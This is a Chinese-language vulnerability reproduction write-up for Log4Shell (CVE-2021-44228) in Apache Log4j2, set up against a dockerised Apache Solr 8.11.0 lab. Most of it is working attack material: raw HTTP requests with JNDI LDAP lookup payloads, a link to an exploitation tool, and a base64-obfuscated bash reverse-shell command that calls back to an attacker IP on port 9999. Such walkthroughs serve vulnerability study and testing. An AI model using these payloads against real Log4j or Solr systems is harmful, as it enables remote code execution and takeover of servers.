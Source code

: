 # Apache Log4j2 lookup JNDI 注入漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

CVE-2021-44228常被称为`log4shell`。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

Payloads：

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md

## 环境搭建

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

Vulhub执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:ldap://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

![image-20220305220532335](images/202203052205527.png)

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

![image-20220305220601719](images/202203052206769.png)

实际利用JNDI注入漏洞，可以使用[这个“工具](https://github.com/welk1n/JNDI-Injection-Exploit)。

![image-20220305223436251](images/202203052234596.png)

利用完毕后，可见`touch /tmp/awesome_poc`已经成功被执行：

![image-20220305223503054](images/202203052235135.png)

### 反弹shell

构造反弹shell命令：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}
```

![image-20220305223522125](images/202203052235402.png)

构造Payload：

```
GET /solr/admin/cores?action=${jndi:ldap://192.168.174.128:1389/chof5b} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

监听9999端口，接收反弹shell：

![image-20220305223552171](images/202203052235323.png)